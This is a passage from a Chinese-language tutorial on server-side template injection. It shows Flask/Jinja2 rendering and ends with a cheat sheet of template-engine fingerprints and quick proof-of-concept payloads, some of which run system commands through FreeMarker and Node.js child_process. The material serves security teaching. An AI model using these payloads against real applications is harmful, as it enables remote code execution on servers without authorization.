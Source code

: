 如果变量 `name = "bx"`，那么模板引擎渲染后会输出：

```plain
Hello, bx!
```

How to Work?

1. **模板文件**
2. **传入数据**
3. **模板引擎渲染**
4. **输出内容**

比如在 Flask 中使用 Jinja2：

```python
from flask import render_template

@app.route('/')
def index():
    return render_template('hello.html', name='bx king')
```

对应模板：

```html
<h1>Hello {{ name }}</h1>
```

渲染后浏览器看到的是：

```html
<h1>Hello bx king</h1>
```



**漏洞形成流程图**

[文本绘图-展示漏洞成因](https://www.mermaidchart.com/play?utm_source=mermaid_js&utm_medium=editor_selection&utm_campaign=playground#pako:eNqrVkrOT0lVslJKL0osyFAIcYnJUwACx-jnU1Y869j-Yt_kp61LYxV0de1qnk1f8GJ_-7PdS2oUnKKfrVj4bO7-p3umPpvcFwvR4wRSpeAc_WzHpmfzJ4N0tu9ClqopSKzMyU9MsYXofbF-7bPNU2sUXKKf7F78fEHjs87lLxb26Ac5uwI1KdUCAGP0Scs)

![](https://cdn.nlark.com/yuque/__mermaid_v3/1363e5808649bdc326390a9941f588d3.svg)

模板引擎速查表与语法指纹

| 语言 | 常见引擎 | 识别语法 | 快速 PoC |
| --- | --- | --- | --- |
| Python | Jinja2 / Mako | `{{7*7}}` → `49` | `{{ ''.__class__.__mro__[1].__subclasses__()[...]` |
| PHP | Twig / Smarty | `{{7*7}}` / `{{$smarty}` | `{{_self.env.setCacheDir("/tmp")}}` |
| Java | FreeMarker | `${7*7}` | `${"freemarker.template.utility.Execute"?new()("id")}` |
| Node.js | Nunjucks / EJS | `<%= 7*7 %>` | `{{range.constructor("return process.mainModule.require('child_process').execSync('id')")()}}` |



